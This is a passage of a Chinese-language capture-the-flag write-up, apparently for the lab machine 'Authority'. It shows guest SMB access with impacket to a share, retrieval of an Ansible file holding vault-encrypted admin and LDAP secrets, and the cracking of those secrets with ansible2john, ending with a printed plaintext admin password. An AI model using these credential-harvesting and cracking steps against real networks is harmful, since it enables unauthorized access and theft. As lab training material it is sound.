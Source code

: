 发现可以使用Guest账户访问SMB共享，并且对 `Development` 目录有可读权限。从该目录中找到含有加密密码的 `/Automation/Ansible/PWM/defaults/main.yml` 文件。

```bash
kali@kali[~]$ impacket-smbclient Guest@10.10.11.222 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Development
# cat /Automation/Ansible/PWM/defaults/main.yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

经过一番搜索，发现该哈希是通过Ansible Vault加密的数据。可以使用 `ansible2john` 将该哈希转为可以被爆破的形式，并且通过哈希爆破得到密钥，使用得到的密钥即可解密数据得到用户的明文密码。

![[Authority-ansible-decrypt.png]]

我们得到了管理员的密码
```
password: pWm_@dm!N_!23
```
